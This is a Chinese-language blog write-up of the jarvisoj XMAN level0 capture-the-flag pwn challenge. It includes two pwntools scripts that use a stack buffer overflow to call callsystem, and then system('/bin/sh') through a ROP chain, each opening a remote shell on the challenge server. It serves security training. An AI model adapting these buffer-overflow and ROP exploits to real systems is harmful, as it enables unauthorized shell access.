 ```yaml
---
layout:     post
title:      jarvisoj [XMAN]level0
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/level0.b9ded3801d6dd36a97468e128b81a65d  
>  
>Address:  
>nc pwn2.jarvisoj.com 9881  
<!-- more -->


### 0x00 可执行文件特征

![](/assets/img/writeup/pwn/2017-07-11-jarvisoj-level0/0x00.png)

![](/assets/img/writeup/pwn/2017-07-11-jarvisoj-level0/0x01.png)

查看缓冲区

![](/assets/img/writeup/pwn/2017-07-11-jarvisoj-level0/0x02.png)

![](/assets/img/writeup/pwn/2017-07-11-jarvisoj-level0/0x03.png)


### 0x01 通过调用callsystem

![](/assets/img/writeup/pwn/2017-07-11-jarvisoj-level0/0x04.png)

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

junk = 'A' * (0x80 + 0x08)
callsystem_addr = 0x400596

Io = remote('pwn2.jarvisoj.com', 9881)

payload = junk + p64(callsystem_addr)

Io.send(payload)
Io.interactive()
```


### 0x02 构造system("/bin/sh")


system地址

![](/assets/img/writeup/pwn/2017-07-11-jarvisoj-level0/0x05.png)

"／bin／sh"字符串地址

![](/assets/img/writeup/pwn/2017-07-11-jarvisoj-level0/0x06.png)

查找pop rdi|ret
```
ropper -f level0 --search "pop|pop|pop|ret"
```
![](/assets/img/writeup/pwn/2017-07-11-jarvisoj-level0/0x07.png)

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

junk = 'A' * (0x80 + 0x08)
system_addr = 0x400460 # 0x600A78
bin_sh_addr = 0x400684
pop_rdi_ret = 0x400663

Io = remote('pwn2.jarvisoj.com', 9881)

payload = junk + p64(pop_rdi_ret) + p64(bin_sh_addr) + p64(system_addr)

Io.send(payload)
Io.interactive()
```

得到falg

![](/assets/img/writeup/pwn/2017-07-11-jarvisoj-level0/0x08.png)